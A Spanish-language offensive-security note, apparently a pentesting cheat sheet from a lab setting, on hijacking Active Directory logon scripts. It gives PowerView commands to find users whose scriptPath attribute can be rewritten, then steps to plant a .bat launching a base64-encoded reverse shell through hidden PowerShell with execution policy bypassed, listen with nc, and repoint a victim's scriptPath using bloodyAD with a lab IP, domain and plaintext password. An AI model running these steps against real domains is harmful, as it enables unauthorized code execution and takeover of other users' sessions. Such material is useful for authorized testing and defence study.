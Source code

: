 # Info

Los scripts de inicio de sesión en Active Directory permiten ejecutar tareas de manera automática al momento en que un usuario inicia sesión.

# Requisitos

- Tener permiso de escritura en las carpetas NETLOGON o SYSVOL del DC o sobre una carpeta en la máquina donde se baya a conectar el usuario.
- Tener permisos de escritura del script-path de un usuario

# Explotación
Buscar ususarios sobre los que nuestro usuario puede reescribirle el el script-path

    $UserSID = (Get-DomainUser -Identity "user").objectSID
    Get-DomainObjectAcl -Identity * -ResolveGUIDs |  Where-Object { $_.SecurityIdentifier -eq $UserSID -and $_.ObjectAceType -like "Script-Path" } | Select-Object ObjectDN, ObjectAceType

Podemos también buscar contraseñas en texto plano o Script-paths inseguros de manera automática

    .\Invoke-ScriptSentry.ps1

## Abuso

1) Crear un archivo .bat con una shell reversa en base64 de revshells agregando antes del base64

        powershell -ExecutionPolicy Bypass -WindowStyle Hidden -EncodedCommand <base64>
2) Lo subimos a la carpeta del smb
3) Iniciamos un nc
4) actualzamos el script-path de la víctima

        bloodyAD --host "10.129.229.224" -d "inlanefreight.local" -u "david" -p 'SecurePassDav!d5' set object eric scriptPath -v 'ruta/al/archivo.bat'
5) Esperamos a que el usuario inicie la sesión.
